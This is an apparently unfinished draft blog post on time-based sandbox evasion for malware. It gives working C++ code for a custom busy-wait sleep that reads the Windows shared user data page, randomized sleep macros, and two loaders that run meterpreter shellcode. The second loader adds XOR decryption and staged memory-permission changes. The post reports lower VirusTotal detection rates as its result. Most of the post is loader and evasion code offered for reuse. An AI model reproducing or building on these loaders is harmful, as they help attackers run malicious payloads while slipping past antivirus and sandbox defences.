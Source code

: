```yaml
---
title: "Sleepy malware is deadly malware"
date: 2022-11-20T14:28:34+01:00
draft: true
toc: false
images:
tags:
  - evasion antisandboxing 
---
```



## Sleep isn't for the weak
Time based evasion techniques **\[T1497\]** are a relatively painless and efficient way of avoiding sandboxes.

MEME HERE

Sandboxes are heavily relied on to detect malicious activity dynamically. Hence, it's a guarantee malware will do it's best at staying under the radar, achieving this by either blending in or timing out the sandbox.

One way of timing out the sandbox is simply making your malware sleep through it, exhausting the sandbox which makes it time out and assume the sample is benign.

However it's not *that* easy. Some modern detection solutions possess countermeasures against that, for example hooking sleep functions like `Sleep` in C/C++ or `Thread.Sleep` in C# to nullify the sleep, but also fast forwarding. TL;DR: Tampering to make the malware think it is in the clear.

A plethora of techniques can be applied to still "sleep", we will see some of them in this blogpost.

## Demonstration: Hooking sleep functions

## Weaponizing `__get_timestamp()`
Credits to Jordan Jay (Legacyy) for his amazing work on this.
I wont delve too deep on how this works as Legacyy himself [literally made a blogpost about it](https://www.legacyy.xyz/defenseevasion/windows/2022/07/04/abusing-shareduserdata-for-defense-evasion-and-exploitation.html) + the code is well commented.

```cpp
unsigned long long __get_timestamp()
{
	const size_t UNIX_TIME_START = 0x019DB1DED53E8000; // Start of Unix epoch in ticks.
	const size_t TICKS_PER_MILLISECOND = 1000; // A tick is 100ns.
	LARGE_INTEGER time;
	time.LowPart = *(DWORD *)( 0x7FFE0000 + 0x14 ); // Read LowPart as unsigned long.
	time.HighPart = *(long *)( 0x7FFE0000 + 0x1c ); // Read High1Part as long.
	return ( unsigned long long )( ( time.QuadPart - UNIX_TIME_START ) / TICKS_PER_MILLISECOND );
}
```

As a side note: I edited it to get the time in milliseconds.

##### Making a 

```cpp
void __alt_sleepms( size_t ms )
{
	volatile size_t x = rand(); // random buffer var 
	const unsigned long long end = __get_timestamp() + ms; // calculate when we shall stop sleeping
	while (__get_timestamp() < end) { x += 1; } // increment random var by 1 till we reach our endtime
}
```
And to be even more sneaky, we'll use a random time interval at each with sleep. 

Which we can ease by making a macro for that.

```cpp
#define INTERVAL rand() % 26 // Edit as you wish
#define MS_PER_SECOND 1000 
#define SLEEPTIME INTERVAL*MS_PER_SECOND // Make the use easier
```

Then we are simply able to 
```cpp
__alt_sleepms( SLEEPTIME );
```

## Loader
We will use a very basic loader for demo purposes.

I'll simply use a staged **HTTPS** meterpreter shellcode 

1. RWX memory, no shellcode encryption, no sleep in between instructions just simply loud and underdeveloped.
```cpp
#include <Windows.h>
#include "buf.h" // Header file containing our shellcode as "unsigned char buf[]"
int main()
{
	 //Allocate memory for our shellcode
     PVOID addr;
    addr = VirtualAlloc( NULL, sizeof( buf ), ( MEM_RESERVE | MEM_COMMIT ), PAGE_EXECUTE_READWRITE );

    memcpy( addr, buf, sizeof( buf ) );

    HANDLE hThread;
    DWORD id;
    hThread = CreateThread( NULL, 0, (LPTHREAD_START_ROUTINE)addr, NULL, 0, &id );

    WaitForSingleObject( hThread, INFINITE );
 
    return 0;

}
```

3. Loader with alternative sleep + shellcode encryption
```cpp
#include <Windows.h>
#include "buf.h" // Header file containing our shellcode as "unsigned char buf[]"
#include "snorlax.h" // Header file containing our time based evasion stuff
#include "utils.h" // Header file containing RNG related stuff.



#define INTERVAL rand() % 26 // Edit as you wish
#define MS_PER_SECOND 1000 
#define SLEEPTIME INTERVAL*MS_PER_SECOND // Make the use easier




int main()
{
    // seed our generator 
    srand( defaultseed ); 
    
    // decrypt our xor encrypted shellcode
    xor_bytes( buf, SHELLCODE_SIZE, key, KEYLEN );

    // Allocate RW memory
    PVOID addr = VirtualAlloc( NULL, sizeof( buf ), ( MEM_RESERVE | MEM_COMMIT ), PAGE_READWRITE );

    // Copy our shellcode to the allocated memory
    memcpy( addr, buf, sizeof( buf ) );


    // Now the interesting part where we can leverage sleeping
    // We basically change memory perms like RW -> R -> RX 
    DWORD oldProtect;
    VirtualProtect( addr, sizeof( buf ), PAGE_READONLY, &oldProtect );
    
    //Sleep( SLEEPTIME );
    __alt_sleepms( SLEEPTIME );

    VirtualProtect( addr, sizeof( buf ), PAGE_EXECUTE_READ, &oldProtect );

    //Sleep( SLEEPTIME );
    __alt_sleepms( SLEEPTIME );

    DWORD id;
    HANDLE hThread = CreateThread( NULL, 0, (LPTHREAD_START_ROUTINE)addr, NULL, 0, &id );

    WaitForSingleObject( hThread, INFINITE );

    return 0;

}

```

## Testing
Our testing of different versions of our loader will go as the following:
1. Loader with **0 evasion** and **0 shellcode encryption**
2. Loader with **0 evasion** but with **shellcode encryption**
3. Loader with both **time based evasion** (fast forward check, alternative sleep in between changes of memory permissions) and **shellcode encryption**

With nothing: https://www.virustotal.com/gui/file/98d4134cb824d533a92920f58a14d7c0fb7543520c950b27943263cbe1389244?nocache= (26/72)

Regular sleeps + changing memory perms: https://www.virustotal.com/gui/file/0d2d6284207fa529fcc05a1091cf3094203576d00d3d381302cb24c4f1f68336?nocache=1 (25/70)

Alt sleep + changing memory perms :https://www.virustotal.com/gui/file/c9c4edcc4e7d5ce5311642f12c2b3884194951c075f106e1bb1452d9dae48bd1?nocache=1 (14/70)


This is in the sole goal of knowing the efficiency of each version and therefore of this alternative sleeping method, by using a regular loader detection rate as a baseline for our test and then comparing the regular sleeping method with the alternative one.


Results are at the time of testing, the detection ratio might have changed in between the post and its creation.


# Credits/Sources
Jordan Jay ([@0xLegacyy](https://twitter.com/0xLegacyy)), [blog](https://www.legacyy.xyz) 